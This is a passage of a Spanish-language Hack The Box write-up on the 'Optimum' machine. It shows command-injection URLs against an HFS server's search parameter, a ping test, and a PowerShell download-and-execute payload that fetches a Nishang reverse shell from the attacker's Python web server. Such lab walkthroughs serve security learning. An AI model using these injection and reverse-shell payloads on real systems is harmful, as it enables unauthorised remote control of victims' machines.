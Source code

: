 ![](/assets/images/HTB/Optimum-HackTheBox/exploit1.png)

Nos genera una url con la que podremos ejecutar los comandos, pero no funciona... al menos los típicos comandos como dir, ls , net user... etc

Asique intento probar algo para ver si realmente funciona, la idea es hacer un ping desde la máquina víctima a mi máquina a través del cmd.

``http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.3.}``

Para comprobar el funcionamiento abro wireshark y filtro el tráfico para ver solo paquetes ICMP.

*¡RECORDAR QUE DEBEMOS CAPTURAR EL TRÁFICO EN LA INTERFAZ tun0 (que es la de la VPN de HTB)!*

![](/assets/images/HTB/Optimum-HackTheBox/wireshark.png)


Como vemos funciona, tenemos ping.

Ahora debemos intentar entablar conexión... 

Buscando en internet encuentro una reverse shell para Windows 'Oneline'.

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

![](/assets/images/HTB/Optimum-HackTheBox/rev.png)


En mi caso la guardo bajo el nombre de reverse.ps1

Ejecutamos un servidor python 

```python
python3 -m http.server 8080
```

Y añadimos el siguiente comando a la url del navegador para pasar el archivo reverse.ps1 a la máquina víctima y ejecutarlo.

```url
 http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.3/reverse.ps1').} 
 ```
